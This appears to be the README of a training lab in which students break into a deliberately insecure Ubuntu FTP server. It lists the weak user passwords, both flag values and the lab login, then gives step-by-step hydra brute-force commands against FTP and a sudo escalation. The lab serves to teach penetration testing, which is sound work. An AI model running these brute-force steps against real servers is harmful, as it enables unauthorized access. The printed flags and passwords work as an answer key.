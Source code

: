 # FTP and Brute Force Lab

This lab allows students to apply brute force and privilege escalation techniques in a realistic environment. The goal is to access an FTP server with insecure configuration and retrieve two hidden flags in the system. This way, students will understand:

- How an FTP server and anonymous access work.
- Using password brute force with the `hydra` tool.
- Reading clues hidden in files accessible via FTP.
- Connecting as a discovered user using a dictionary.
- Escalating privileges on a Linux system to access as `root`.

## Machine Specifications

- **Operating System**: Ubuntu Server (no graphical interface)
- **Active Service**: `vsftpd` on port 21
- **Anonymous Access** enabled: `/home/ftp/anonymous/IMPORTANT`
- **Vulnerable Users**:
    - `james` → password: `superman`
    - `caroline` → password: `babygirl`
- **Privileges**:
    - `caroline` belongs to the `sudo` group
- **Challenge Flags**:
    - `/home/james/flag.txt`:  
        `4GEEKS{C0ngr4tul4t10ns_4_UR_F1R5T_FL4G!!!}`
    - `/root/flag.txt`:  
        `4GEEKS{C4R0L1N3_N33D5_A_B3TT3R_P455W0RD!!!}`

### Machine Credentials

```bash
servername: ftp-lab
username: student
password: 4geeks-lab
```

## Expected Steps for Students

1. **Connect as an anonymous user via FTP**:

     ```bash
     ftp <IP_VM>
     ```

2. **Read the instructions.txt file in `/IMPORTANT`**: The file suggests that users james and caroline should change their passwords.

3. **Perform brute force with hydra and `rockyou.txt`**:

     ```bash
     hydra -l james -P /usr/share/wordlists/rockyou.txt ftp://<IP_VM>
     hydra -l caroline -P /usr/share/wordlists/rockyou.txt ftp://<IP_VM>
     ```

4. **Connect as james via FTP and retrieve the first flag**:

     ```bash
     ftp <IP_VM>
     # login: james
     # password: superman
     ```

     ```bash
     get flag.txt
     ```

5. **Connect as caroline (via SSH or FTP)**

6. **Escalate privileges to read the second flag**:

     ```bash
     sudo cat /root/flag.txt
     ```
